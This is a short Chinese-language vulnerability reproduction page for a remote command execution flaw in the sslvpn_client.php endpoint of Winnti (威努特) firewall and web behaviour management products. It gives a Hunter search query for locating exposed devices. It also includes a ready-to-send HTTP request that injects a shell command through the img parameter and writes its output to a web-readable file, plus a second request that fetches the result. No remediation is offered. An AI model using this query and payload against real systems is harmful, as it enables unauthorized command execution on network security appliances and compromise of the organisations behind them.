 # 威努特sslvpn_client存在远程命令执行漏洞

# 一、漏洞简介
威努特防火墙sslvpn_client存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 威努特第二代防火墙
+ 威努特上网行为管理系统

# 三、资产测绘
+ hunter`app.name=="威努特第二代防火墙"`
+ 特征

![1701763255220-b1f2801a-99cf-4b00-908a-e0407077d750.png](./img/r7gYetii6UGZxE7M/1701763255220-b1f2801a-99cf-4b00-908a-e0407077d750-805088.png)

![1701763267244-47dfc2c5-8543-4eba-81fc-85757181229a.png](./img/r7gYetii6UGZxE7M/1701763267244-47dfc2c5-8543-4eba-81fc-85757181229a-036372.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e.png](./img/r7gYetii6UGZxE7M/1701762310844-e2bb6845-f268-450b-b1ef-4ddc2f30876e-569947.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701762342384-224cbced-19ed-428d-b26d-9957865251d2.png](./img/r7gYetii6UGZxE7M/1701762342384-224cbced-19ed-428d-b26d-9957865251d2-186116.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qg31v0mn53x3w50g>